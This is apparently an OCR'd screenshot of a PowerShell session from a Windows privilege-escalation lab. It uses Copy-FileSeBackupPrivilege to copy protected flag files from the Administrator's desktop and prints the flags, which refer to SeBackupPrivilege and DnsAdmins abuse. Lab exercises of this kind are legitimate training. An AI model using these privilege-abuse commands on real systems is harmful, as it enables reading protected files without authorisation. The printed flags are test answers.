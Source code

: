 Copy-FileSeBackupPrivilege 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' .\flag.txt
Copied 30 bytes

cat .\flag.txt
Car3ful_w1th_gr0up_m3mberSh1p!

PS C:\Tools> Copy-FileSeBackupPrivilege 'c:\Users\Administrator\Desktop\DnsAdmins\flag.txt' .\flag_dns.txt
Copied 14 bytes

cat .\flag_dns.txt
Dll_abus3_ftw!